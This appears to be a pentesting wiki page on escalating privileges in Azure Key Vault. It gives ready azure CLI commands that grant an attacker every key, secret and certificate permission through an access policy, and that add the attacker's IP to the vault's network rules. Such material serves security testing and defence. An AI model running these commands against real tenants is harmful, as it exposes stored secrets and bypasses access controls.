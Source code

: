 # Az - Key Vault Privesc

## Azure Key Vault

For more information about this service check:

[[../az-services/az-keyvault.md]]

### `Microsoft.KeyVault/vaults/write`

An attacker with this permission will be able to modify the policy of a key vault (the key vault must be using access policies instead of RBAC).

```bash
# If access policies in the output, then you can abuse it
az keyvault show --name <vault-name>

# Get current principal ID
az ad signed-in-user show --query id --output tsv

# Assign all permissions
az keyvault set-policy \
  --name <vault-name> \
  --object-id <your-object-id> \
  --key-permissions all \
  --secret-permissions all \
  --certificate-permissions all \
  --storage-permissions all
```

### Modify Network Restrictions

It might be possible tthat you have enough permissions th access sensitive data (like the value of a secret) but you can't access it because the key vault is restricted to a specific network. If you have the permission to modify the network restrictions you can add your IP to the list of allowed IPs.

```bash
# Get the current network restrictions
az keyvault network-rule list --name <vault-name>

# Add your IP to the list
az keyvault network-rule add --name <vault-name> --ip-address <your-ip>
```

